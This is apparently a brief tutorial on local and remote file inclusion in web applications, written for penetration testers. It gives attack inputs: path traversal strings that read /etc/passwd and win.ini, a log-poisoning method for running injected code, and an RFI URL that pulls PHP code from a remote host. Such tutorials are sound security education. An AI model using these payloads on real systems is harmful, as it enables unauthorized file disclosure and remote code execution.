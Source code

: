 File Inclusion:
===
File inclusion is a web security vulnerability 
in which user supplied data is include in include() without sanitization on the web application.RFI

File inclusion is classified as two types:

1.LFI(Local file inclusion)

2.RFI(Remote File Inclusion)

<h3>LFI</h3>

Local File Inclusion (LFI) allows an attacker to include files on a server through the web browser. 
This vulnerability exists when a web application includes a file without correctly sanitising the input, 
allowing and attacker to manipulate the input and inject path traversal characters and include other files from the web server.

<h3>Identification & EXPLOITATION</h3>

LFI vulnerabilities are easy to identify and exploit. Any script that includes a file from a web server is a good candidate for further LFI testing, 
For example:

               /script.php?page=/windows/win.ini
     
Internally we check log file in "/xampp/apache/logs/access.log "
we will find the user contrallable data in the present activity,then paste the code in user contralable field such as "USER AGENT:"
in the last paste the path of access.log in web browser and in result the code will be executed.

<h3>In linux</h3>
A penetration tester would attempt to exploit this vulnerability by manipulating the file location parameter, 
such as:

           /script.php?page=../../../../../../../../etc/passwd

The above is an effort to display the contents of the /etc/passwd file on a UNIX / Linux based system.

RFI
===
A remote file inclusion (RFI) occurs when a file from a remote web server is inserted into a web page. 
This can be done on purpose to display content from a remote web application. 

<h3>Identification & Exploitation</h3>

1.Go to your target website and find any parameter that loads the content of any remote websites
for eg. url, page, file etc. (Use Spider option of burp for finding parameters)

2.suppose we find vulnerbaility in "page" parameter

For example:

     /script.php?page=http://www.webhosted.com/b0x.txt 


Note:- If we find any problem or application not allow to fetch data then we will ecxploit it in burp suite
and can fetch the data from the remote URL.

if we are appending php code in the b0x file then we have to save it as .txt file on the internet based server.
This is how we can exxploit RFI.




THANKS
ROHIT TANWAR







